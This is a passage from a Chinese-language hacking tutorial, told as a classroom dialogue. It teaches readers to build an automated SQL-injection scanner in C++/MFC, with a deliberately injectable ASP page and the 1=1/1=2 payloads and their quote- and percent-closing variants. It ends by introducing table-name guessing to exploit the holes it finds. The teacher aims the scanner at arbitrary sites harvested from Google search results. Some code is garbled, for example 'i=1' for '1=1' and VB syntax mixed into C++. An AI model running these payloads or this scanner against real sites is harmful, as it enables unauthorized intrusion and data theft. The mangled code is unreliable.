SQLAllocHandle(SQL_HANDLE_DBC, henv, (SQLHDBC FAR *)&hdbc);
retcode = SQLDriverConnect(hdbc, NULL, (unsigned char *)szConnStr, strlen(szConnStr),
    (unsigned char *)szBuffer, sizeof(szBuffer), &swStrLen,
    SQL_DRIVER_COMPLETE_REQUIRED);
if (retcode == SQL_SUCCESS || retcode == SQL_SUCCESS_WITH_INFO)
{
    // 密码正确
    // 发现密码
    // 添加记录
}
```

“按照前面 FTP 弱口令扫描和 MYSQL 弱口令扫描的步骤就可以轻松编写出 MSSQL 弱口令扫描的代码了。有兴趣的话大家可以试试，给大家的资料中有具体的代码，大家可以参考。将 MSSQL 的弱口令扫描添加到工程之后，我们的漏洞扫描已经初具雏形了，来看看最后的效果，如图 3-48。”

“看起来还蛮不错的，接下来就是我们的 SQL 注入漏洞扫描了。”

### 3.2.4 SQL 注入漏洞扫描

“终于到了最期待的 SQL 注入漏洞扫描了。”小菜们的情绪明显高涨。

“看来大家都对 SQL 注入有所了解了哦。”老师询问道。

“对啊，啊 D 注入工具可是我床上的贵宾，对 d99 大侠的佩服有如滔滔江水绵绵不绝，势如黄河泛滥，一发不可收拾。”小菜 A 一提到 SQL 注入就打开了话匣子，“如果能够写出这样一个工具也算是今生无悔啊，不过呢？我现在只会点点按钮，连原理都不知道呢。”

“确实，啊 D 注入工具可算是注入界的大明星，要实现一个像啊 D 注入工具一样的程序很不容易，不过我们可以一步一步地学习，首先来实现 SQL 注入点的扫描。”


#### 一、SQL 注入点扫描

“要想对注入点进行扫描，我们首先需要弄清楚 SQL 注入漏洞形成的原因。用一句话来概括：由于程序没有对外部提交的数据进行过滤或过滤不严，而导致外来恶意的数据被插入到 SQL 语句中并被数据库执行，这就是注入漏洞形成的起因。根据使用的脚本语言的类型，可以分为 ASP 注入、PHP 注入等。据统计，目前 Web 服务器 70% 是由 ASP+Access 或者 ASP+MSSQL 架设的，因此 ASP 的注入自然成为了研究的重点，啊 D 注入工具也是主要针对 ASP 的注入。”老师继续讲道，“转入正题，我们也使用 ASP 来进行讲解。”

“在前面的 printer 漏洞检测时，已经提到了 HTTP 的 GET 方法，比如 http://www.test.com/test.asp?id=1，这里问号后面的 id=1 就是 GET 方法传入的内容。变量名为‘id’，变量值为‘1’。当我们使用这个 URL 进行访问时，服务端就可以通过变量名得到变量的值，获得输入的变量的代码。”

```asp
<%
response.write request.querystring("id")
%>
```

“这里 request.querystring("id") 的值就是传入的内容‘1’。当然，如果你用‘test.asp?id=test’访问，那么 request.querystring("id") 的值就是‘test’了。”

“那这里会出现什么漏洞呢？”小菜们问道。

“不要着急，如果只是这样的页面就什么漏洞也没有。”老师悠悠地回答道。

“哦~~”当时晕倒一大片。

# 第三章 端口与漏洞扫描编程

“不过呢？如果服务端的程序变动一下，说不定就有了哦，比如下面的代码：”

```asp
default.asp
<%
'建立数据库链接对象
Set conn = Server.CreateObject("ADODB.Connection")
'数据库绝对路径 test.mdb 为数据的路径名称
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("test.mdb")
'连接数据库
conn.Open connstr
set rs = Server.CreateObject("ADODB.recordset")
'数据库查询语句
sql = "SELECT * FROM [news] where id=" + request.querystring("id")
rs.open sql,conn,1,1
%>
<html>
<table width="100%" border="1">
<%
do while not rs.eof
%>
<tr height="30">
<td align=center><%=rs("Title")%></td>
<td align=center><%=rs("news")%></td>
</tr>
<%
rs.movenext
loop
%>
</table>
</html>
```


“这段代码的含义是连接‘test.mdb’数据库，然后从表‘news’中查找符合我们输入的 id 号的信息，并以表格的形式将其中的 Title、news 字段打印出来，比如我们输入：http://192.168.15.31/default.asp?id=3，返回的结果就如图 3-49 所示。”

“我们来看看服务器数据库里面的数据，看看上面的程序是否真的工作正常了，打开 test.mdb，看看表‘news’里面的数据，如图 3-50。”

“果然是将 id 为 3 的数据打印了出来。”

“这个功劳应该归功于这条语句：`sql = "SELECT * FROM [news] where id=" + request.querystring("id")`。它将我们在 URL 上面输入的 id 号添加到了数据库查询的语句中，因此这条语句经过 ASP 解释后就变成了 `SELECT * FROM [news] where id=3`，然后放到了数据库中执行了查询任务，最终得到了上述的答案。不过，成也风云，败也风云，这条语句是有严重问题的哦，大家 check 一下。”老师说道。

“如果我们在 URL 上不是输入的 id=3，而是 id=test 之类的字符串的话，数据的查询就会有问题了。”小菜们开始意识到一点问题了。

“不错，程序没有对输入进行过滤，无论我们输入何值，程序都会将该值添加到 SQL 语句中，并放到数据库里进行执行，这就是最经典的注入漏洞。”

“这样就形成了注入漏洞？”小菜们对这条小小的语句不以为然。

“为了证实，我们使用注入工具来测试一下，刚好身边有 HDSI 3.0，输入我们需要检测的 URL `http://192.168.15.31/default.asp?id=3`，进行检测，看到没有，成功地猜解出了 admin 的密码，如图 3-51。”

“原来这个小地方引起的危害如此大啊，也想不到注入点就是这样形成的啊。”小菜们有所醒悟了，“但是刚才我们是通过代码的分析从而得出有注入点的结论啊，但是这些注入工具究竟是如何进行检测的呢？”

“现在我向大家隆重地推出最经典的注入漏洞判别方法：‘1=1、1=2 法’。首先我们把 URL 改为 `http://192.168.15.31/default.asp?id=3 and 1=1`，此时 id 就为‘3 and 1=1’，带入到 SQL 语句中，就变成下面这样 `SELECT * FROM [news] where id=3 and 1=1`。我们知道 1=1 是永远成立的，所以这个 URL 的请求应该和 `http://192.168.15.31/default.asp?id=3` 的请求是一样的，验证一下来看，如图 3-52。”

“果真如分析的那样。”

“进一步，我们将 URL 改为 `http://192.168.15.31/default.asp?id=3 and 1=2` 呢？此时 id 就为‘3 and 1=2’，带入到 SQL 语句中，就变成了 `SELECT * FROM [news] where id=3 and 1=2`，但是 1=2 永远都是错误的，那么岂不是查询不到任何值？”小菜们分析道，分析之后小菜马上动手测试一下，“果然没有打印出任何信息。”

“差异就是美，现在来总结一下上面的情形。”

# 第三章 端口与漏洞扫描编程

```text
正常信息
id=3 and 1=1 正常信息
id=3 and 1=2 没有任何信息
```

“这样的情形就是存在注入点的标志，并且该理论放之四海皆准哦。”

“现在判断注入点的方法就出来了，只要 A 和 B 的结果相等，B 和 C 的结果不相等，那么就说明这个 URL 是存在注入点的。”

“原来 1=1、1=2 的名字是这样得来的。”小菜们恍然大悟。

“检测的方法搞定，现在就是程序如何实现了哦，首先考虑对单个 URL 的注入点检测，还是老规矩，首先完成工程的初始化，工程的名称称取为‘Injection Scan’，完成设计界面，如图 3-53。”

“双击‘确定’按钮来到消息响应函数的代码处，那么如何设计这个漏洞检测的方案呢？”老师问道。

“首先获取正常 URL 的网页内容并保存下来，其次分别在 URL 后添加‘and 1=1’和‘and 1=2’并获取其网页内容保存下来，最后对保存下来的网页内容进行比较，如果正常的 URL 和添加‘and 1=1’后的网页内容一样，并且后面两次的网页内容不一样，那么就可以判断其存在注入漏洞。”小菜们经过片刻思考后给出了解决方案。

“那么我们如何判断网页内容的差异呢？是进行内容的大小比较呢，还是遍历每一个字符进行比较，或者是其它的办法？”老师又问道，“这里可是关系到注入点扫描器好坏的关键哦！”

看着大家一脸的迷惘，老师说道：“我们先采用两种方法来判断，一个就是返回的 HTTP 状态码，第二个就是网页内容的长度，以后想到有更好的方法再向里面添加，根据这两个判断原则，我们就可以将判断代码写出来了。”


```cpp
判断是否存在注入点
参数
char *szNormalBuf;      正常请求的数据内容
DWORD dwNormalSize;     正常请求的大小
DWORD dwNormalStatus;   正常请求的返回状态
char *szBuf1_1;         1=1 请求的数据内容
DWORD dwSize1_1;        1=1 请求的大小
DWORD dwStatus1_1;      1=1 请求的返回状态
char *szBuf1_2;         1=2 请求的数据内容
DWORD dwSize1_2;        1=2 请求的大小
DWORD dwStatus1_2;      1=2 请求的返回状态
返回值：
如果检测到注入点，那么返回 TRUE，否则返回 FALSE

BOOL IsInjectionHole(
    char *szNormalBuf,
    DWORD dwNormalSize,
    DWORD dwNormalStatus,
    char *szBuf1_1,
    DWORD dwSize1_1,
    DWORD dwStatus1_1,
    char *szBuf1_2,
    DWORD dwSize1_2,
    DWORD dwStatus1_2
)
{
    // 判断返回状态
    if (dwStatus1_1 == dwNormalStatus && dwStatus1_1 != dwStatus1_2)
    {
        return TRUE;
    }

    // 判断返回数据的长度
```

# 第三章 端口与漏洞扫描编程

```cpp
if (szNormalBuf && szBuf1_1 && szBuf1_2)
{
    if (dwNormalSize == dwSize1_1)
    {
        if (dwSize1_1 == dwSize1_2)
            return TRUE;
        return FALSE;
    }
    else
    {
        // 正常包和 1_1 包长度不一样
        // 一定判断数据包内容
        if (dwSize1_1 == dwSize1_2)
        {
            // 肯定不存在注入包
            return FALSE;
        }
        else
        {
            // 三个包的长度都不一样
        }
    }
}
else if (szNormalBuf && szBuf1_1 && !szBuf1_2)
{
    // 如果正常和 1_1 有返回数据，而 1_2 没有返回数据
    return TRUE;
}
return FALSE;
```

“检测的代码出来后，我们的消息响应函数就容易编写了，代码如下。”

```cpp
DWORD dwSize;
DWORD dwStatusCode = 0;

// 获取正常的网页内容
char *szBuf = GetHttpFile(strScanUrl, dwSize, dwStatusCode);

CString strUrl_1_1 = strScanUrl;
strUrl_1_1 += " and 1=1";
DWORD dwSize_1_1 = 0;
DWORD dwStatusCode_1_1 = 0;

// 获取 1=1 的网页内容
char *szBuf_1_1 = GetHttpFile(strUrl_1_1, dwSize_1_1, dwStatusCode_1_1);

CString strUrl_1_2 = strScanUrl;
strUrl_1_2 += " and 1=2";
DWORD dwSize_1_2 = 0;
DWORD dwStatusCode_1_2 = 0;

// 获取 1=2 的网页内容
char *szBuf_1_2 = GetHttpFile(strUrl_1_2, dwSize_1_2, dwStatusCode_1_2);

if (IsInjectionHole(szBuf, dwSize, dwStatusCode, szBuf_1_1, dwSize_1_1, dwStatusCode_1_1, szBuf_1_2, dwSize_1_2, dwStatusCode_1_2))
{
    m_VulList.InsertItem(0, strScanUrl);
}
```

“现在剩下最后一个问题，就是 GetHttpFile 的实现，如何获取指定 URL 的网页内容、网页内容的长度以及其返回的状态码。在检测 Printer 漏洞的时候我们自己写了一个简单的 HTTP 请求包发送到了服务端，然后检测了服务端返回的状态，可是后面真正的数据包的传送工作和分析工作却没有涉及到，那么数据包应该怎么接收呢？我们下面来分析分析。”老师说道。

“还记得在分析检测 Printer 和 .ida/.idq 漏洞的方法时嗅探到服务器返回的数据包吗？我们再把它拿过来看看。”

```text
HTTP/1.1 404 Object Not Found
Server: Microsoft-IIS/5.0
Date: Wed, 05 Sep 2007 07:27:58 GMT
Connection: close
Content-Length: 2938
Content-Type: text/html
```

“当时我们只是分析了其状态码，而其它的我们没有提到，下面来简单介绍一下其它字段的含义。”

| 字段 | 说明 |
|---|---|
| Server | 服务器的 Banner 信息 |
| Date | 服务器时间 |
| Connection | 连接状态 |
| Content-Length | 服务器发送的数据的长度 |
| Content-Type | 服务器响应文件在编码格式和数据传递上采用的格式，如 gzip、text/html |

“其中，关系到我们后续接收数据包工作的有两个字段 Content-Length 和 Content-Type，而特别困扰我们的东西就是最后一个字段，服务器数据发送过来的编码格式。所以呢，我们后面接收数据包的工作还真的有很多，比如判断服务器是以何种格式的数据包发送过来的，是否压缩过、使用的何种编码，数据的真实大小等。”

“想不到还有这么多的事情啊，原以为 HTTP 协议就那么简单呢，那么我们应该怎么办呢？”小菜问道。

“不用担心，MFC 类库提供了专门的 Win32 Internet 扩展接口，也就是 WinInet。MFC 将 WinInet 封装在一个标准的、易于使用的类集合中。在编写 WinInet 客户端程序时，你既可以直接调用 Win32 函数，也可以使用 WinInet 类库。”

#### 小知识：Win32 Internet 扩展接口

Win32 Internet 扩展提供了对普通 Internet 协议的访问，这些协议包括 HTTP、FTP 和 Gopher。借助于 WinInet 编程接口，我们甚至不必去了解 Winsock、TCP/IP 和特定 Internet 协议的细节，就可以编写出高水平的 Internet 客户端程序。WinInet 为这几种协议（HTTP、FTP 和 Gopher）提供了统一的函数集，也就是 Win32 API 接口。利用这些统一的函数集，大大简化了针对 HTTP、FTP 等协议的编程，从而轻松地将 Internet 集成到自己的应用程序中。

“使用 WinInet 类库进行 HTTP 的编程需要使用三个类 CInternetSession、CHttpConnection 以及 CHttpFile，它们都被声明在了头文件 afxinet.h 中。因此，如果要使用这三个类，我们需要在 stdafx.h 中包含该头文件。下面来看看如何使用这三个类完成 HTTP 的请求以及接收返回的数据。首先需要实例化一个 CInternetSession 对象，为了使用 HTTP 协议，需要通过 CInternetSession::GetHttpConnection 创建一个 CHttpConnection 的实例，并得到其指针；为了能够方便地进行数据的输入输出，再通过 CHttpConnection::OpenRequest 创建一个 CHttpFile 的实例。此后，我们就可以使用 CHttpFile 来进行数据的输入输出了，也就是在网络上进行数据的传输。下面先介绍一下在使用 WinInet 类库进行 HTTP 通信的一些关键函数。”

# 第三章 端口与漏洞扫描编程

##### AfxParseURL

功能是解析 URL 地址，得到该 URL 地址的端口、服务器地址以及请求的对象。

函数原型：
```cpp
BOOL AFXAPI AfxParseURL(
    LPCTSTR pstrURL,
    DWORD& dwServiceType,
    CString& strServer,
    CString& strObject,
    INTERNET_PORT& nPort
);
```

参数：
- pstrURL 为传入的 URL 地址
- dwServiceType 为输出，发送连接的类型
- strServer 为输出，服务器的地址
- strObject 为输出，向服务器请求的对象
- nPort 为输出，服务器的端口

##### CInternetSession::GetHttpConnection

该函数创建一个 CHttpConnection 的实例，并将该实例返回。

原型：
```cpp
CHttpConnection* GetHttpConnection(
    LPCTSTR pstrServer,
    INTERNET_PORT nPort = INTERNET_INVALID_PORT_NUMBER,
    LPCTSTR pstrUserName = NULL,
    LPCTSTR pstrPassword = NULL
);
```

参数：
- pstrServer 为服务器的地址，可以为域名地址，也可以为 IP 地址
- nPort 为连接的端口号

##### CHttpConnection::OpenRequest

其功能是将一个 HTTP 连接打开，其实就是创建一个 CHttpFile 实例，并将该实例的指针返回，而后程序就可以利用该 CHttpFile 实例进行网络数据的传输。

函数原型：
```cpp
CHttpFile* OpenRequest(
    LPCTSTR pstrVerb,
    LPCTSTR pstrObjectName,
    LPCTSTR pstrReferer = NULL,
    DWORD dwContext,
    LPCTSTR* ppstrAcceptTypes = NULL,
    LPCTSTR pstrVersion = NULL,
    DWORD dwFlags = WCE_IF(
        0, INTERNET_FLAG_EXISTING_CONNECT)
);
```

参数：
- pstrObjectName：为向 HTTP 请求的对象，如 `/null-printer`

##### CHttpFile::AddRequestHeaders

其功能是将 HTTP 头信息添加到 HTTP 连接中，准备发送 HTTP 请求包。

##### CHttpFile::SendRequest

其功能是发送 HTTP 请求数据包。

##### CHttpFile::QueryInfoStatusCode

其功能是查询返回的 HTTP 状态。

原型：
```cpp
BOOL QueryInfoStatusCode(
    DWORD& dwStatusCode
) const;
```

参数：
- dwStatusCode 为输出的 HTTP 状态

##### CHttpFile::QueryInfo

可以用来查询返回的 HTTP 头部信息，这个函数必须在 SendRequest 之后使用。

##### CHttpFile::ReadString

其功能是从 HTTP 连接中读出服务端发送的数据。

“利用这些函数就可以完成获取 URL 的网页内容、内容长度以及状态码的函数，其实现代码如下。”

```cpp
char * GetHttpFile(CString strUrl, DWORD &dwSize, DWORD &dwStatusCode)
{
    CInternetSession session(_T("Scan.Injection"));
    CHttpConnection *pServer = NULL;
    CHttpFile *pFile = NULL;
    // 检测输入的URL是否符合格式，并把URL分解
    CString strServerName;
    CString strObject;
    INTERNET_PORT nPort;
    DWORD dwServiceType;
    if ((!AfxParseURL(strUrl, dwServiceType, strServerName, strObject, nPort)) ||
        (dwServiceType != INTERNET_SERVICE_HTTP))
    {
        return NULL;
    }

    // 配置连接服务器的地址、端口，获取及存储HTTP连接
    pServer = session.GetHttpConnection(strServerName, nPort);
    // 打开该HTTP连接
    pFile = pServer->OpenRequest(CHttpConnection::HTTP_VERB_GET,
        strObject, NULL, 1, NULL, NULL, dwHttpRequestFlags);

    // 向连接的缓冲区添加请求头
    pFile->AddRequestHeaders(szHeaders);
    try
    {
        // 发送请求
        pFile->SendRequest();
    }
    catch (CException* e)
    {
        return NULL;
    }

    DWORD dwRet;
    // 获取该请求的回应状态码
    pFile->QueryInfoStatusCode(dwRet);
    dwStatusCode = dwRet;
    // 拒绝访问
    if (dwRet == HTTP_STATUS_DENIED ||
        dwRet == HTTP_STATUS_MOVED ||
        dwRet == HTTP_STATUS_REDIRECT ||
        dwRet == HTTP_STATUS_REDIRECT_METHOD)
    {
        pFile->Close();
        delete pFile;
        pServer->Close();
        delete pServer;

        dwSize = 0;
        return NULL;
    }

    // 获取服务端准备发送过来多大的数据
    dwSize = 102400;
    pFile->QueryInfo(HTTP_QUERY_CONTENT_LENGTH, dwSize);

    // 申请缓冲区
    char *sz = new char[dwSize + 1];
    ZeroMemory(sz, dwSize + 1);
    char szTemp[1024];
    DWORD dwCurrentSize = 0;

    // 服务器发送的数据添加到缓冲区中
    while (pFile->ReadString(szTemp, 1023))
    {
        dwCurrentSize += (DWORD)strlen(szTemp);
        if (dwCurrentSize >= dwSize)
        {
            dwCurrentSize -= (DWORD)strlen(szTemp);
            break;
        }
        strcat(sz, szTemp);
    }

    // 得到最后大小
    dwSize = dwCurrentSize;
    if (pFile != NULL)
        delete pFile;
    if (pServer != NULL)
        delete pServer;
    session.Close();
    return sz;
}
```

“好了，来测试一下我们的程序是否真的能够检测出 SQL 漏洞注入点吧。按‘Ctrl + F5’运行程序，对 http://192.168.15.31/default.asp?id=3 进行检测，结果如图 3-54 所示。”

“不错，还真的能检测出来！”

“不过我们不应该满足于对一个 URL 的检测，我们需要的是注入点扫描程序，因此我们应该实现的功能是对输入的 URL 进行解析，获得该 URL 下所有的链接，并对所有的这些链接进行注入点检测，这样才不愧为一个注入点扫描程序。我们不另外建立新的工程了，就在原有的基础上进行功能的添加。为了显示获得的所有链接，我们再添加一个‘List Control’，最终设计的界面如图 3-55 所示。”

“我们来重新整理一下程序的流程：获取输入的 URL -> 然后获得该 URL 的网页内容 -> 在网页内容中查找所有的链接 -> 对每一个链接进行注入点检测。”

“获取 URL 的网页内容和进行注入点检测已经有现成的代码了，好像就剩下查找所有的链接了。”小菜们分析道。

“那么怎么来获取所有的链接呢？”老师问道。

“难道是检索网页内容中的 `<a></a>` 标签？这是超链接的指示啊！”

“这是个不错的方法，我们来看看在 HTML 语言中是如何构成一个可以点击的链接的，看看下面这三条语句。”

图 3-54

图 3-55

```html
<a href="index.asp">链接</a>
<a href="/index.asp">链接</a>
<a href="http://www.test.com/index.asp">链接</a>
```

“这三条 HTML 语言都会让 IE 浏览器显示‘链接’二字，并且有链接信息，但是点击后的链接目标就不一样了。第一个链接目标是当前网页的路径加上 index.asp，比如当前的 URL 为 http://192.168.15.31/test/default.asp，那么目标就是 http://192.168.15.31/test/index.asp；而第二个链接的目标就是 http://192.168.15.31/index.asp；第三个链接的目标就是 http://www.test.com/index.asp。因此我们在解析这三种方式的链接时要分别处理。下面就是一个将网页内容的所有链接枚举出来并添加到 CString 的 CList 链表中的函数。该程序的流程是：首先通过上面介绍的 GetHttpFile 函数获得 URL 的网页内容，然后找到网页内容的 `<a></a>` 标签，并把里面 `href` 的内容提取出来，从而得到最后的 URL，并添加到 CList 链表中。”

```cpp
// 获取所有的URL地址
BOOL GetAllURL(CString strURL, CList<CString, CString&> &ListURL)
{
    // 将自己添加到列表中
    ListURL.AddHead(strURL);
    DWORD dwSize = 0;
    DWORD dwState;
    CHAR *sz = NULL;
    sz = GetHttpFile(strURL, dwSize, dwState);
    if (!sz)
    {
        return FALSE;
    }

    CString strServerName;
    CString strObject;
    INTERNET_PORT nPort;
    DWORD dwServiceType;
    AfxParseURL(strURL, dwServiceType, strServerName, strObject, nPort);
    DWORD dwStart = 0;
    DWORD dwEnd = 0;
    char *szStart = NULL;
    char *szNewStart = sz;
    char *szHref = NULL;
    char *szUrl = NULL;

    while ((szStart = StrStrIA(szNewStart, "<a")))
    {
        // 寻找 </a> 标志
        if (!(szNewStart = StrStrIA(szStart, "</a>")))
        {
            break;
        }
        *szNewStart = '\0';

        // 找 href 标志
        if (!(szHref = StrStrIA(szStart, "href")))
        {
            continue;
        }

        // 寻找 " 标志
        if (!(szHref = StrStrIA(szHref, "\"")))
        {
            continue;
        }

        // 得到 URL 地址
        szUrl = szHref + 1;
        // 寻找 " 标志
        if (!(szHref = StrStrIA(szUrl, "\"")))
        {
            continue;
        }
        *szHref = '\0';

        // 判断已经得到的是 URL
        CString strTmp;
        if (StrStrIA(szUrl, "http") == szUrl)
        {
            // 使用的是绝对 URL 地址
            strTmp = szUrl;
            ListURL.AddHead(strTmp);
        }
        else
        {
            if ((*szUrl) == '/')
            {
                // 使用的是绝对地址
                strTmp.Format("%s%s%s", "http://", strServerName, szUrl);
            }
            else
            {
                CString strOrignURL = strURL.Left(strURL.ReverseFind('/'));
                strTmp.Format("%s/%s", strOrignURL, szUrl);
            }
            ListURL.AddHead(strTmp);
        }
    }

    if (sz)
        delete sz;
    return TRUE;
}
```

“关键问题解决了，现在重新设计程序。为了在扫描注入点的时候界面不会僵死，还是需要使用多线程技术，把消息响应函数解放出来，因此消息响应函数的代码如下。”

```cpp
void CInjectionScanDlg::OnBnClickedOk()
{
    UpdateData(TRUE);
    THREADPARAM Param;
    Param.PDlg = this;
    strcat(Param.szURL, m_strScanUrl);
    CreateThread(NULL, 0, MainInjectionScanThread, &Param, 0, NULL);
    Sleep(500);
}
```

“线程函数 MainInjectionScanThread 的功能就是调用 GetAllURL 函数获得所有的链接，然后循环开启线程对链接进行注入点扫描。”

```cpp
DWORD WINAPI MainInjectionScanThread(LPVOID lpParam)
{
    THREADPARAM lParam = {0};
    MoveMemory(&lParam, lpParam, sizeof(Param));

    // 声明 CString 类型的 CList 链表
    CList<CString, CString&> UrlList;
    CString strRootUrl(lParam.szURL);

    // 获取 URL 中所有的链接，并添加到 MyList 中
    if (!GetAllURL(strRootUrl, UrlList))
    {
        UrlList.RemoveAll();
        return 0;
    }

    THREADPARAM ThreadParam = {0};
    ThreadParam.hCopyOk = CreateEvent(NULL, TRUE, FALSE, NULL);

    // 遍历所有的链接，并进行注入点扫描
    POSITION ps = UrlList.GetHeadPosition();
    for (int i = 0; i < UrlList.GetCount(); i++)
    {
        CString strScanUrl = UrlList.GetNext(ps);
        lParam.PDlg->m_AllUrlList.InsertItem(0, strScanUrl);

        // 如果链接中不包含 GET 方法提交的数据，则绕过这个链接
        if (strScanUrl.Find("asp?") == -1 && strScanUrl.Find("php?") == -1)
            continue;

        ThreadParam.PDlg = lParam.PDlg;
        ZeroMemory(ThreadParam.szURL, MAX_PATH);
        strncpy(ThreadParam.szURL, strScanUrl, MAX_PATH - 1);

        // 开启线程进行注入点检测
        CreateThread(NULL, 0, CheckUrlThread, &ThreadParam, 0, NULL);
        WaitForSingleObject(ThreadParam.hCopyOk, INFINITE);
        ResetEvent(ThreadParam.hCopyOk);
    }

    // 清空链表
    UrlList.RemoveAll();
    return 0;
}
```

图 3-56

“线程函数 CheckUrlThread 的功能就是对 URL 使用‘1=1、1=2’判断法则进行注入点检测，其代码和单个注入点检测程序中的完全一样，因此就不多加描述。那么怎么来测试我们的程序是否真的能够在网页中找到注入漏洞的链接呢？我们搬出 Google Hacking 来现身说法。”

“什么是 Google Hacking 啊，Google 不是好人吗？它怎么也来 hack 呢？”小菜们对 Google 的印象不错哦。

“我没有说是 Google 去‘黑’别人，而是使用 Google 的搜索信息来寻找我们需要的资料。打开 Google，输入‘asp?id=544’，然后点击搜索，我们记录下此时地址栏上的 URL：‘http://www.google.cn/search?complete=1&hl=zh-CN&newwindow=1&q=asp%3Fid%3D544&btnG=Google+%E6%90%9C%E7%B4%A2&meta=&aq=t&oq=null’，然后将它复制到我们的注入点扫描工具中来试试，如图 3-56。”

“哇，太帅了，找到了两个注入点，原来 Google 这么乐意帮忙。”小菜们看到扫描出来的漏洞都欢呼了起来，“那这两个注入点是不是真的存在啊？”

“至于是不是真的有漏洞，大家可以测试一下，如果真的有漏洞，可以提示一下管理员，千万不要做任何破坏哦，这可是原则性的问题。程序到这里其实还没有完，我们上面的检测都是基于这样一个事实，那”

## 第三章：端口与漏洞扫描编程

就是输入的参数是数字的，如“asp?id=544”，那如果是字符型的呢？比如“asp?title=电影”这样的链接我们能检测吗？”老师提出了新的问题。

“略懂~~”小菜们本来还沉浸在喜悦中，一下就被泼了一盆凉水。

“还是事实来说话吧，我们把上面的 `default.asp` 改一下，将 `sql = "SELECT * FROM [news] where id="+request.querystring("id")` 改为 `sql = "SELECT * FROM [news] where Title='"+request.querystring("title")+"'``，也就是把查询 id 变成查询 Title，现在我们输入 `http://192.168.15.31/default.asp?title=黑客不黑` 来进行访问，如图 3-57。”

“同样可以访问，现在我们用 1=1、1=2 来进行测试一下，1=1 和 1=2 返回的结果都一样，空白一片，经典判别法也失效了。”小菜们看到返回的结果大感失望。

“大家不要失望，上有政策，下有对策嘛，有办法解决的。首先来看看我们加入 1=1 后，SQL 语句变成了什么模样。”老师说道。

“`SELECT * FROM [news] where title='黑客不黑 and 1=1'`。”小菜回答道，“好像是单引号的位置没有对啊！”

“那有没有办法把单引号去掉或者屏蔽掉呢？”看到小菜们发现了一些问题，老师继续引导道。

“单引号不能去掉吧，那是程序本身的，不过屏蔽掉好像……”小菜们陷入了一片沉思，并开始用手上的笔来分析。

“有了！”小菜 A 猛地站起来，“我们可以自己添加单引号，让它们的单引号闭合就可以了；比如我们可以这样输入地址：`http://192.168.15.31/default.asp?title=黑客不黑' and '1'='1`，服务端组成 SQL 语句就成了这样：`SELECT * FROM [news] where title='黑客不黑' and '1'='1'`，这样就把前面和后面的单引号封闭了。”小菜 A 一口气把想法提了出来。

“很不错，这就是传说中的 1=1、1=2 判别法的变形，我们来测试一下看看是否是正确的，如图 3-58。”老师说道。

“成功了，重拾旧地啊。”小菜们不由感慨道。

“我这里再给出另外一个屏蔽单引号的方法：`http://192.168.15.31/default.asp?title=黑客不黑" and 1=1 and "="`。这样 1=1 被我们解放了出来，以后想执行什么 SQL 语句就可以直接填充到这个位置，有利于我们编程实现哦。不过还有一种情况……”老师说道。

“还有一种情况啊。”小菜们还没有等老师的话说完就激动起来了。

“不要急，有了上次的经验，这次很简单的哦，服务端的 SQL 语句还可以这样写：`sql = "SELECT * FROM [news] where Title like '%"+request.querystring("title")+"%'"`，这样的语句一般出现在搜索中，那这次我们的输入应该怎么变形呢？”

“`http://192.168.15.31/default.asp?title=黑客不黑%' and '%'='`，这样就可以把单引号和百分号一起屏蔽掉了。”小菜们片刻便给出了答案。

“思路是正确的，但是百分号直接出现在地址栏上可能不能奏效哦，因此可以改写成 `%25`，同时为了向我们的 1=1、1=2 判别法靠近，我们可以这样来构造输入：`?title=黑客不黑%25' and 1=1 and '%25'='`。在 IE 浏览器中测试一下，如图 3-59。”

“同样可以运作哦，最后我们来总结一下变形的判别方法，如图 3-60。”

“分析完毕了，我们将这两种判别方法加入到程序中，只用改动一下 `CheckUrlThread` 函数就可以了，先用经典的判别法检测；如果没有检测到注入点，再用变形判别法 1 检测；最后用变形判别法 2 检测，增加的代码如下。”

| 经典判别法 | 变形判别法1 | 变形判别法2 |
|---|---|---|
| and 1=1 | and 1=1 and '=' | %25' and 1=1 and '%25'=' |
| and 1=2 | and 1=2 and '=' | %25' and 1=2 and '%25'=' |

```vb
strUrl = strScanUrl
strUrl = strUrl & "and 1=1 and '="
dwSize1 = 0
dwStatusCode = 0
' 获取“and 1=1 and '=”的网页内容
sZBuf1 = GetHttpFile(strUrl, dwSize1, dwStatusCode)
```

#### 二、表名扫描

```cpp
strUrl2 = strScanUrl
strUrl2 += " and i=2 and \"%25'=\""
dwSize2 = 0
dwStatusCode2 = 0
// 获取 "and i=2 and ..." 的网页内容
szBuf2 = GetHttpFile(strUrl2, dwSize2, dwStatusCode2)
if (IsInjectionHole(szBuf, dwSize, dwStatusCode, szBuf1,
    dwSize1, dwStatusCode1, szBuf2, dwSize2, dwStatusCode2))
{
    Param.pDlg->m_VulList.InsertItem(0, strScanUrl)
}

strUrl1 = strScanUrl
strUrl1 += "%25' and i=1 and '%25'='"
dwSize1 = 0
dwStatusCode1 = 0
// 获取 "%25' and i=1 and ..." 的网页内容
szBuf1 = GetHttpFile(strUrl1, dwSize1, dwStatusCode1)

strUrl2 = strScanUrl
strUrl2 += "%25' and i=2 and '%25'='"
dwSize2 = 0
dwStatusCode2 = 0
// 获取 "%25' and i=2 and ..." 的网页内容
szBuf2 = GetHttpFile(strUrl2, dwSize2, dwStatusCode2)

if (IsInjectionHole(szBuf, dwSize, dwStatusCode, szBuf1,
    dwSize1, dwStatusCode1, szBuf2, dwSize2, dwStatusCode2))
{
    Param.pDlg->m_VulList.InsertItem(0, strScanUrl)
}
```

“程序的改动不大，完整的代码大家可以参看最终的程序，测试就由大家去做了。”

“如果查找出了注入点，却不能加以利用，实在是遗憾中的遗憾，不过从现在开始，我们要将这个遗憾去掉，要找出隐藏在注入点后的价值，首先我们就要完成第一步工作，表名的扫描。”老师说道。

“好，好，好！”小菜们听到这里已经迫不及待了。

“再来问个问题，为什么 1=1、1=2 能够成功地检测注入点呢？”老师问道。

“这是因为 1=1 为真，1=2 为假的嘛。”小菜们回答道。

“其实也就是真、假差异判断法，因此如果用 3=3、3=4 也同样可以检测出注入点。”老师说道，“我们再逆向思维一下，如果该 URL 是有注入点的，那我们是不是可以根据返回的结果来判断我们输入的是‘1=1’还是‘1=2’呢？或者是否可以判断在 1=1、1=2 位置处的语句执行的结果是‘真’或者是‘假’呢？”老师问道。

“当然可以。”小菜们回答道。

“其实我们以后的表名、字段名以及字段内容的检测都是基于这个原理。”老师加重了语气说道，“总结一下：判断存在注入点的方法。”

```text
1=1（真条件）
1=2（假条件）
=> 判断服务器返回结果的差异
=> 是否有注入点
```

